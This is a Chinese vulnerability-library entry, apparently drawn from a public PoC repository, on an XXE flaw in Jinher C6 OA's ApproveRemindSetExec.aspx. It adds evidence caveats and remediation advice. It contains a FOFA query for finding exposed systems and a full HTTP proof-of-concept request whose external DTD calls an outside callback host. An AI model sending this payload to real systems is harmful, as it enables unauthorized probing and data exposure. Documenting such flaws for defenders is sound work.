


# 金和C6 ApproveRemindSetExec XXE

## 条目说明

- 对象与具体问题：金和C6；ApproveRemindSetExec XXE
- 版本、配置及部署条件：无精确版本
- 认证与权限前提：无Cookie未等于无认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 示例只外部DTD回连，不能由此证任意文件读取；无root完整XML需说明解析行为
- CNVD可做主ID但官方归属/修复build待核
- 在野利用已知/影响广无引证；数据库监控是模板化不针对XXE修复
- HTTP代码块缺失

## 操作风险

在线解密或外部服务可能收到凭据及敏感内容。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

金和OA ApproveRemindSetExec.aspx 接口处存在XML实体注入漏洞，攻击者可利用xxe漏洞获取服务器敏感数据，可读取任意文件以及ssrf攻击，存在一定的安全隐患。

## 影响版本

金和OA

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="金和网络-金和OA"

POC/EXP：

```http
POST /c6/JHSoft.Web.AddMenu/ApproveRemindSetExec.aspx/? HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/xml

<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://t09c879f.eyes.sh"> %remote;]>
```








## 修复方案

官方已修复该漏洞，请用户联系厂商修复漏洞：http://www.jinher.com/

部署Web应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
